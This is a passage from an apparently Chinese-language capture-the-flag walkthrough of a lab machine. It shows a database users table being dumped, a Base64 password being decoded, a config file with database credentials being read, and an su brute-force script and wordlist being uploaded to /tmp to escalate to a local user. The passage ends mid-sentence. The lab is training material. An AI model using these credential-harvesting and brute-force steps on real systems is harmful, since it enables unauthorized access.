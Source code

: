 ```bash
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [dark_shop]> show tables;
+---------------------+
| Tables_in_dark_shop |
+---------------------+
| products            |
| users               |
+---------------------+
2 rows in set (0.000 sec)

MariaDB [dark_shop]> select * from users;
+----+------------------------------------------+--------------------------+---------+---------------------+
| id | username                                 | password                 | isAdmin | created_at          |
+----+------------------------------------------+--------------------------+---------+---------------------+
|  1 | simpleAdmin                              | U3RyMG5nUGFzc3cwZDFAQEA= |       1 | 2025-04-01 04:33:22 |
# ... 其他用户 ...
+----+------------------------------------------+--------------------------+---------+---------------------+
13 rows in set (0.001 sec)
```

`simpleAdmin` 的密码哈希是 `U3RyMG5nUGFzc3cwZDFAQEA=`，Base64解码后是 `Str0ngPassw0d1***`。

查看 `/home/` 目录，发现用户 `darksoul`。

```bash
www-data@disguise:/var/www/dark$ ls -la /home/
total 12
drwxr-xr-x  3 root     root     4096 Mar 31 11:19 .
drwxr-xr-x 18 root     root     4096 Mar 31 11:13 ..
drwxr-xr-x  4 darksoul darksoul 4096 Apr  2 04:19 darksoul
```

尝试用 `Str0ngPassw0d1***` 切换到 `darksoul`，失败。
在 `/home/darksoul/` 目录下发现 `config.ini`，内容和 `/var/www/dark/config.php` 中的数据库密码一致。

```bash
www-data@disguise:/home/darksoul$ cat config.ini
[client]
user = dark_db_admin
password = Str0ngPassw0d1***
host = localhost
database = dark_shop
port = int(3306)
```

看来 `darksoul` 的密码需要爆破。密码格式可能是 `Str0ngPassw0d1` + 三个特殊字符。
上传一个su爆破脚本 `suForce` 和密码字典 `pass` 到 `/tmp/`。
字典 `pass` 生成方法
